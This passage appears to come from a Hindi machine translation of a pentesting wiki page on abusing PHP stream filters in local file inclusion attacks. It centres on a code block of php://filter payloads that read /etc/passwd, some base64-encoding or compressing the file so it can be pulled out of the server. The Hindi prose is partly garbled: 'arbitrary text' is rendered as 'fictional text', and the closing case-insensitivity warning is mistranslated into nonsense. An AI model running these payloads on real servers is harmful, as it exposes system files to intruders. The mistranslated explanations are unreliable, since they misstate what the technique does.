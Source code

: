 {% hint style="warning" %}
`convert.iconv.*` परिवर्तन फ़िल्टर का दुरुपयोग करके आप **कल्पित पाठ उत्पन्न** कर सकते हैं, जो कल्पित पाठ लिखने या कल्पित पाठ प्रक्रिया को शामिल करने के लिए उपयोगी हो सकता है। अधिक जानकारी के लिए [**LFI2RCE via php filters**](lfi2rce-via-php-filters.md) देखें।
{% endhint %}

* [Compression Filters](https://www.php.net/manual/en/filters.compression.php)
* `zlib.deflate`: सामग्री को संकुचित करें (यदि बहुत सारी जानकारी को बाहर निकालना उपयोगी है)
* `zlib.inflate`: डेटा को अनसंकुचित करें
* [Encryption Filters](https://www.php.net/manual/en/filters.encryption.php)
* `mcrypt.*` : पुराना
* `mdecrypt.*` : पुराना
* अन्य फ़िल्टर्स
* php में `var_dump(stream_get_filters());` चलाकर आप कुछ **अप्रत्याशित फ़िल्टर्स** पा सकते हैं:
* `consumed`
* `dechunk`: HTTP चंक्ड इन्कोडिंग को उल्टा देता है
* `convert.*`
```php
# String Filters
## Chain string.toupper, string.rot13 and string.tolower reading /etc/passwd
echo file_get_contents("php://filter/read=string.toupper|string.rot13|string.tolower/resource=file:///etc/passwd");
## Same chain without the "|" char
echo file_get_contents("php://filter/string.toupper/string.rot13/string.tolower/resource=file:///etc/passwd");
## string.string_tags example
echo file_get_contents("php://filter/string.strip_tags/resource=data://text/plain,<b>Bold</b><?php php code; ?>lalalala");

# Conversion filter
## B64 decode
echo file_get_contents("php://filter/convert.base64-decode/resource=data://plain/text,aGVsbG8=");
## Chain B64 encode and decode
echo file_get_contents("php://filter/convert.base64-encode|convert.base64-decode/resource=file:///etc/passwd");
## convert.quoted-printable-encode example
echo file_get_contents("php://filter/convert.quoted-printable-encode/resource=data://plain/text,£hellooo=");
=C2=A3hellooo=3D
## convert.iconv.utf-8.utf-16le
echo file_get_contents("php://filter/convert.iconv.utf-8.utf-16le/resource=data://plain/text,trololohellooo=");

# Compresion Filter
## Compress + B64
echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=file:///etc/passwd");
readfile('php://filter/zlib.inflate/resource=test.deflated'); #To decompress the data locally
# note that PHP protocol is case-inselective (that's mean you can use "PhP://" and any other varient)
```
{% hint style="warning" %}
"php://filter" भाग मामूली रूप से मामूली है
{% endhint %}
